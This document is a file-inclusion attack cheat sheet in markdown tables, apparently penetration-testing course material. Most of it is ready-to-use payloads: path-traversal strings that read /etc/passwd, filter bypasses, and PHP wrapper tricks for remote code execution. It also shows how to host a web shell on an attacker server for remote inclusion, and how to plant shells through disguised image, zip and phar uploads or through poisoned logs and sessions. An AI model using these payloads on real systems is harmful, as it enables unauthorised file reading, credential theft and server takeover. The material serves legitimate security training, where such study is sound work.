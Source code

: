 # File Inclusion Cheat Sheet

## Local File Inclusion
| Command | Description |
|---------|-------------|
| **Basic LFI** | |
| `/index.php?language=/etc/passwd` | Basic LFI |
| `/index.php?language=../../../../etc/passwd` | LFI with path traversal |
| `/index.php?language=/../../../etc/passwd` | LFI with name prefix |
| `/index.php?language=./languages/../../../../etc/passwd` | LFI with approved path |
| **LFI Bypasses** | |
| `/index.php?language=....//....//....//....//etc/passwd` | Bypass basic path traversal filter |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` | Bypass filters with URL encoding |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
| `/index.php?language=../../../../etc/passwd%00` | Bypass appended extension with null byte (obsolete) |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config` | Read PHP with base64 filter |

## Remote Code Execution
| Command | Description |
|---------|-------------|
| **PHP Wrappers** | |
| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id` | RCE with data wrapper |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"` | RCE with expect wrapper |
| **RFI** | |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>` | Host web shell |
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id` | Include remote PHP web shell |
| **LFI + Upload** | |
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif` | Create malicious image |
| `/index.php?language=./profile_images/shell.gif&cmd=id` | RCE with malicious uploaded image |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php` | Create malicious zip archive 'as jpg' |
| `/index.php?language=zip://shell.zip%23shell.php&cmd=id` | RCE with malicious uploaded zip |
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg` | Create malicious phar 'as jpg' |
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id` | RCE with malicious uploaded phar |
| **Log Poisoning** | |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` | Read PHP session parameters |
| `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E` | Poison PHP session with web shell |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id` | RCE through poisoned PHP session |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'` | Poison server log |
| `/index.php?language=/var/log/apache2/access.log&cmd=id` | RCE through poisoned PHP session |

## Misc
| Command | Description |
|---------|-------------|
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287` | Fuzz page parameters |
| `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287` | Fuzz LFI payloads |
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path |
| `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287` | Fuzz server configurations |

## LFI Wordlists
- LFI-Jhaddix.txt
- Webroot path wordlist for Linux
- Webroot path wordlist for Windows
- Server configurations wordlist for Linux
- Server configurations wordlist for Windows

## File Inclusion Functions
| Function | Read Content | Execute | Remote URL |
|----------|--------------|---------|------------|
| **PHP** | | | |
| `include()/include_once()` | Yes | Yes | Yes |
| `require()/require_once()` | Yes | Yes | No |
| `file_get_contents()` | Yes | No | Yes |
| `fopen()/file()` | Yes | No | No |
| **NodeJS** | | | |
| `fs.readFile()` | Yes | No | No |
| `fs.sendFile()` | Yes | No | No |
| `res.render()` | Yes | Yes | No |
| **Java** | | | |
| `include` | Yes | No | No |
| `import` | Yes | Yes | Yes |
| **.NET** | | | |
| `@Html.Partial()` | Yes | No | No |
| `@Html.RemotePartial()` | Yes | No | Yes |
| `Response.WriteFile()` | Yes | No | No |
| `include` | Yes | Yes | Yes |